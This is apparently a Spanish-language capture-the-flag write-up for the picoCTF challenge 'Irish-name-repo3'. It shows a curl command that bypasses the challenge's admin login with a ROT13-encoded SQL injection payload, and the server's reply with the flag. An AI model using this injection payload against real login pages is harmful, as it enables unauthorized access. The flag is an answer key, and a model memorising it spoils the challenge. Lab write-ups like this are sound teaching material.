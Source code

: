 # Irish-name-repo3

## Descripcion
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/54253/` ([link](https://jupiter.challenges.picoctf.org/problem/54253/)) or http://jupiter.challenges.picoctf.org:54253. Try to see if you can login as admin!

## Pistas
Seems like the password is encrypted.

## Solucion 
```bash
┌──(kali㉿kali)-[~]
└─$ curl -s  https://jupiter.challenges.picoctf.org/problem/54253/login.php -d "password=' be 1=1;"
<h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}</p>  
```


## Notas Adicionales
el password esta enctriptado en ROT13.

## Referencias